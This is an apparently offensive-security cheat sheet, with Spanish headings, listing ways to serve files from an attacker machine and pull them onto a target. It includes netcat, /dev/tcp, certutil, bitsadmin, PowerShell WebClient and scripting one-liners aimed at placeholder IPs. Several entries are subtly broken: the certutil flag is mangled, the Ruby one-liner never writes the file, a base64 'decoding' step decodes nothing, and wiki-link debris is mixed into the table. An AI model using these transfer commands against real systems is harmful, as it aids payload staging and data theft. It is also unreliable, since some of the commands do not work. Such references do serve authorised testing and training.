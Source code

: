 ### Alojando archivo

| Comando                                                                                                                                   | Descripción                                                                                                            |
| ----------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| python -m SimpleHTTPServer [PORT] python3 -m http.server [PORT]                                                                           | Python HTTP Server modules                                                                                             |
| service apache2 start; systemctl start apache2;                                                                                           | Apache web server, requires to place files in the /var/www/html/ directory                                             |
| service nginx start; systemctl start nginx                                                                                                | Nginx web server, requires to place files in or /usr/share/nginx/html or /var/www/html                                 |
| php -S 0.0.0.0:PORT                                                                                                                       | PHP builtin web server bundle                                                                                          |
| nc -q 0 -lvp 443 < file                                                                                                                   | Netcat listener to transfer files                                                                                      |
| cat < archivo > /dev/tcp/<IP>/<PORT>                                                                                                      | Send this file to the target, with our <ip> and <port>, the listener must waiting with this: nc -lvnp <port> > archivo |
| nc -nv IP_ADDR 443 < file                                                                                                                 | Netcat command to send files                                                                                           |
| smbserver.py SHARE share_dir                                                                                                              | Impacket’s smbserver.py script simulates a SMB server                                                                  |
| service smbd start; systemctl start smbd                                                                                                  | Linux Samba, a share has to be added to /etc/samba/smb.conf                                                            |
| service pure-ftpd start; systemctl start pure-ftpd; service proftpd start; systemctl start proftpd                                        | Services such as pure-ftpd and proftpd can be used to setup FTP servers                                                |
| atftpd –daemon –port 69 ftp_dir                                                                                                           | The atftpd utility allows to easily setup a TFTP server                                                                |
| ruby -rwebrick -e’WEBrick::HTTPServer.new(:Port => PORT, :DocumentRoot => Dir.pwd).start’                                                 | Ruby web server using the Web brick library                                                                            |
| ruby -run -e httpd . -p [PORT]                                                                                                            | Ruby simple http server                                                                                                |
| cpan HTTP::Server::Brick; perl -MHTTP::Server::Brick -e ‘$s=HTTP::Server::Brick->new(port=>PORT); $s->mount(“/”=>{path=>”.”}); $s->start’ | Perl Brick HTTP Server                                                                                                 |
| “C:\Program Files (x86)\IIS Express\iisexpress.exe” /path:C: /port:PORT                                                                   | Microsoftg IIS Express                                                                                                 |
| base64 file;                                                                                                                              | Encoding the the file using base 64 and decoding it in the target machine                                              |

---

### Descargar el archivo

|Comando|Descripción|
|---|---|
|wget http://ip-addr:port/file [-o output_file]|Wget comes preinstalled with most Linux systems|
|curl http://ip-addr:port/file -o output_file|Curl comes preinstalled with most Linux and some Windows systems|
|certutil -f-urlcache -split http://ip-addr:port/file output_file|Certutil is a Windows builtin command line tool|
|powershell -c Invoke-WebRequest -Uri http://ip-addr:port/file -OutFile output_file; powershell -c (New-Object Net.WebClient).DownloadFile(‘http://ip-addr:port/file’, ‘output_file’)|Powershell Invoke-WebRequest cmdlet or the System.Net.WebClient class|
|||
|bitsadmin /transfer job /download /priority high http://IP_ADDR/file output_file|Bitsadmin Windows command-line tool|
|nc -nv IP_ADDR 443 > file|Netcat command to download files from a Netcat listener|
|nc -q 0-lvp 443 > file|Netcat listener to receive files|
|copy \IP_ADDR\SHARE\output_file|Copy command to download files from an SMB share|
|smbget smb://domain;user[:password@]server/share/path/file|smbget utility to download files from a Samba share|
|Wget wget [[ftp://user/|ftp://user]]:password@IP_ADDR/path/file -o output_file FTP echo open 192.168.1.64 21> ftp.txt echo anonymous>> ftp.txt echo [[mailto:ftp@ftp.com|ftp@ftp.com]]>> ftp.txt echo bin >> ftp.txt echo get test.txt >> ftp.txt echo bye >> ftp.txt ftp -s:ftp.txt|Wget and FTP to download files from an FTP server|
|tftp|tftp -i IP_ADDR {GET \| PUT} file|
|scp /path/file username@IP_ADDR:/path/file|Secure File Copy SSH tool|
|[https://gist.github.com/Richienb/51021a1c16995a07478dfa20a6db725c](https://gist.github.com/Richienb/51021a1c16995a07478dfa20a6db725c)|Windows Virtual Basic scripts|
|php -r “file_put_contents(‘output_file’, fopen(‘http://ip-addr:port/file’, ‘r’));”|PHP file_put_contents function|
|python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’; python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’|The Python urlretrieve function which is part of the urllib library can be used to download files|
|perl -MLWP::Simple -e ‘getstore(“http://IP_ADDR/file”, “out_file”)’; perl -e ‘use LWP::Simple; getstore(“http://IP_ADDR/file”, “out_file”)’|Library for WWW in Perl|
|ruby -e ‘require “open-uri”;File.open(“output_file”, “wb”) do \|file\|;URI.open(“http://ip-addr:port/file”).read;end’|Ruby Open-URI library|
|echo -n “base64-output” > file|Decoding the base64 output of the file|
